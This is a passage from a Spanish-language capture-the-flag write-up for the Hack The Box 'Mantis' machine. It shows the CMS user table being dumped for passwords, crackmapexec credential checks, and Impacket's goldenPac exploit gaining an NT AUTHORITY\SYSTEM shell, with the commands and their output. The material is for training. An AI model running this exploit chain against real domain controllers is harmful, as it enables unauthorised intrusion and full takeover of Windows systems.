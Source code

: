 - Ahora vamos a leer el contenido de estas columnas interesantes y tenemos las contraseñas y la de `admin` esta en `base64`.

```bash
SQL> select username,password from blog_Orchard_Users_UserPartRecord

username                          password
--------------------------------- ----------------------------------------------------------------------  

admin                              AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
James                              J@m3s_P@ssW0rd!

SQL>
```

## Shell as administrator

- Ahora vemos que las credenciales sean correctas.

```bash
❯ crackmapexec smb mantis.htb.local -u James -p J@m3s_P@ssW0rd!
SMB         mantis.htb      445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         mantis.htb      445    MANTIS           [+] htb.local\James:J@m3s_P@ssW0rd!
```

- Con `crackmapexec` también podemos verificar si un usuario pertenece a un grupo en este caso este es de interés.

```bash
❯ crackmapexec smb mantis.htb.local -u James -p J@m3s_P@ssW0rd! --groups 'Remote Desktop Users'
SMB         mantis.htb      445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         mantis.htb      445    MANTIS           [+] htb.local\James:J@m3s_P@ssW0rd! 
SMB         mantis.htb      445    MANTIS           [+] Enumerated members of domain group
SMB         mantis.htb      445    MANTIS           htb.local\james
```

- Si buscamos información sobre la maquina en `Hackthebox` esta es la vulnerabilidad a explotar pero como tal podemos usar `goldenPac` <https://adsecurity.org/?p=541> nos conectamos con las credenciales de `James` y obtenemos `shell` como `nt authority\system` <https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Methodology%20and%20Resources/Active%20Directory%20Attack/#other-interesting-commands>.

```bash
❯ goldenPac.py htb.local/James:'J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file eHwshorC.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service GNlg on mantis.htb.local.....
[*] Starting service GNlg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```